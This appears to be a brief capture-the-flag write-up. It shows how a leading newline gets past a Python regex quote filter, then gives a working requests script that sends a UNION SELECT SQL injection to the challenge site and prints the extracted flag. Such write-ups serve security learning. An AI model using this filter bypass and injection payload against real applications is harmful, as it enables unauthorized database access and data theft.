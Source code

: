 We need to bypass this in order to execute an SQL Injection

```if re.search(".'", students_name) or students_name[0] == "'"```

Hint: [regexp security cheatsheet](https://github.com/attackercan/regexp-security-cheatsheet)

We can bypass ```re.search(".'", students_name)``` with a new line **\n**

```python
import re
import requests

r = requests.post("https://infreezy.pythonanywhere.com/vaccine_revenge", data={"students_name":"\n'union select 1,2,flag from s3cret_fl4g--"})
re.search("inf{.*}", r.text)

```
*inf{I_h0p3_v4cC1n3_F@R_c0V1D19_15_R3aL}*
